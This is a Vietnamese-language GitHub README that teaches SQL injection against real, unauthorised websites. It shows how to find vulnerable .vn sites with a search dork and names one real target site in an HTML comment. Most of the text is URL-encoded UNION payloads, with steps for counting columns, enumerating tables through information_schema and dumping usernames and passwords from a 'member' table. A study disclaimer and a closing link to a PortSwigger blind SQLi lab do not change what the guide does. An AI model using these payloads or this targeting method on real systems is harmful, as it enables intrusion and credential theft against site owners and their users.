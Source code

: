 # Hướng dẫn tấn công SQLi trên Web thật!                                                     
By: Nguyễn Hữu Nghi
***

** Lưu ý: Bài Demo này là tấn công dựa trên web thật do mình tìm được, với mục đích học tập. Các bạn có thể làm theo nhưng vui lòng đừng thực hiện các tấn công nguy hiểm nhầm phá hoại trang web. Xin cảm ơn! **

## Bước 1:
Tìm kiếm đối tượng tấn công sử dụng lệnh: ```inurl product.php id= site vn``` thông qua các trình duyệt web thông dụng như Chrome, Edge, Cốc Cốc,....
## Bước 2:
Sau khi tìm được đối tượng tấn công.
Mình khuyên các bạn nên tìm các trang web có địa chỉ bắt đầu bằng `http` thay vì`https` thì tấn công sẽ dễ thành công hơn.
<br>
Ví dụ:
![image](https://github.com/user-attachments/assets/a7f45723-3797-426a-a32f-c7ff238794c4)
</br>
** Lưu ý: không phải trang web nào các bạn cũng thực hiện tấn công thành công được, nên đừng quá chán nản. Hãy tập trung tìm điểm yếu hoặc trang wed khác! **

## Bước 3:
Mình sẽ lấy trang web mình tìm được:



<!--http://www.igoergo.com/_site/products.php?cat=02-->



- Xác định số cột <br></br>
```order by 1-- -``` nếu web vẫn bình thường hãy thử lại với số cao hơn! <br>
```order by 3-- -``` web sẽ xảy ra lỗi => Điều này có nghĩa số cột cần tìm > 1 và < 2.<br>
```order by 2-- -``` web vẫn bình thường => số cột của web này là 2.<br>
Bởi vì tôi không muốn tiết lộ tên của trang web nên tôi sẽ ẩn nó đi.<br>
Trông nó sẽ như này: ```http://<name of the website>/_site/products.php?cat=02%20order%20by%202--%20-``` %20 chỉ tượng trưng cho dấu cách các bạn không cần phải lo!
- Xác định cột bị lỗi để có thể chèn code của mình vào <br></br>
Sử dụng lệnh: ```union select 1,2-- -```    
** Lưu ý: bước trên các bạn tìm được bao nhiêu cột thì bắt buộc phải gõ đủ bấy nhiêu cột.  VD: union select 1,2,3,4,5-- - <br></br>
Để lệnh chạy đc thì các bạn thêm `-` trước giá trị của `cat`. ( hoặc `id` nếu các bạn tấn công web khác mình)<br></br>
Trông như này: ```http://<name of the website>/_site/products.php?cat=-02%20union%20select%201,2--%20-```<br></br>
Kết quả: <br>
![image](https://github.com/user-attachments/assets/558bdd0d-fcd4-4178-9870-b9a1ecd0b54e)  </br> 
=> Điều này có nghĩa là bạn có thể chèn code vô cột 1.
**Nếu bạn nghĩ mình đã gõ đúng mà Web vẫn báo lỗi hãy kiểm tra lại từng chữ mà bạn gõ!!!**
## Bước 4:
Thực hiện chèn code bằng các lệnh: <br>
```user()``` => coi user của web <br>
```database()``` => coi thông tin về database <br>
```version()``` => coi version của database <br>
Trông như thế này: <br>
```http://<name of the website>/_site/products.php?cat=-02%20union%20select%20user(),2--%20-```
</br>
### Bước 4.1:
- Tìm tên các tables trong database: <br>
``` union select group_concat(table_name),2 from information_schema.tables where table_schema= database();-- -``` <br>
- Trông sẽ như này: <br>```http://<name of the website>/_site/products.php?cat=-02%20union%20select%20group_concat(table_name),2%20from%20information_schema.tables%20where%20table_schema=%20database();--%20-```</br>
### Bước 4.2:
- Tìm tên các cột trong 1 table cụ thể.<br>
**Thường lấy các cột trong table về chủ sở hữu web vì nó chứa các thông tin quan trọng** <br>
- Ở đây mình lấy table `member` để tấn công. <br> 
Nhưng trước tiên mình cần đổi member thành hệ thập lục phân Hex.
Link đổi sang Hex: https://www.hexator.com/ <br>
```member``` đổi sang Hex sẽ là ```6d656d626572``` <br>
- Sử dụng lệnh: ```union select group_concat(column_name),2 from information_schema.columns where table_name= 0x6d656d626572-- -``` <br>
**Lưu ý: chổ table_name thêm `0x` rồi sau đó là hex của member là `6d656d626572` <br>
- Trông như này: ```http://<name of the website>/_site/products.php?cat=-02%20union%20select%20group_concat(column_name),2%20from%20information_schema.columns%20where%20table_name=%200x6d656d626572--%20-``` <br>
### Bước 4.3:
- Xem nội dung trong các cột: <br>
  Sử dụng lệnh: ```union select group_concat(id,username,password),2 from member-- -``` tuy nhiên kết quả trả về sẽ bị gộp rất khó coi.<br>
  Chèn dấu `/` để dễ nhìn => `2f` => ```union select group_concat(id,0x2f,username,0x2f,password),2 from member-- -```
- Trông nó sẽ như thế này:```http://<name of the website>/_site/products.php?cat=-02%20union%20select%20group_concat(id,0x2f,username,0x2f,password),2%20from%20member--%20-```
### Chúc mừng bạn đã tấn công thành công!!!
<br>
<br>
<br>

***
# Lab 2: Blind SQLi

- Link to lab: https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses
- Link tải Burp Suite: https://portswigger.net/burp/communitydownload











